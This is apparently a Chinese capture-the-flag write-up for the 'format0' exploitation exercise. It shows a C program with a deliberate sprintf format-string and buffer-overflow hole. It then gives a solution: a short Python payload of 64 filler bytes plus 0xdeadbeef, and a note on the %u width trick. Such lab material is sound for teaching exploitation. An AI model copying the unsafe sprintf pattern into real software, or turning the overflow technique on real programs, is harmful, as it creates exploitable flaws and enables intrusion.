 # format0

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

void vuln\(char \*string\)

{

volatile int target;

char buffer\[64\];

target = 0;

sprintf\(buffer, string\);

if\(target == 0xdeadbeef\) {

```
  printf\("you have hit the target correctly :\)\n"\);
```

}

}

int main\(int argc, char \*\*argv\)

{

vuln\(argv\[1\]\);

}

## （二）解题过程：

这道题比较简单。有两种方法。

1） 缓冲区溢出

2）格式字符串漏洞

思路验证：

1\)缓冲区溢出

buff\[64\]

target

ebp

ret

argc

argv

---

payload构造 ： ‘A’\*64 + target\(0xdeadbeef\)

![](/png/47.png)

用python实现如下：

![](/png/48.png)

用规范的python脚本实现：

\#!/usr/bin/env python

import struct

nosled = "\x90" \* 64

target = struct.pack\("I",0xdeadbeef\)

print nosled+target

![](/png/50.png)

命令行执行 注意要带参数

![](/png/51.png)

2\) 用格式化字符串修改

We can use the unsigned decimal integer width field modifier %\(int\)u to help fill the buffer.

![](/png/49.png)



ref:

https://youremindmeofmymother.com/2015/07/

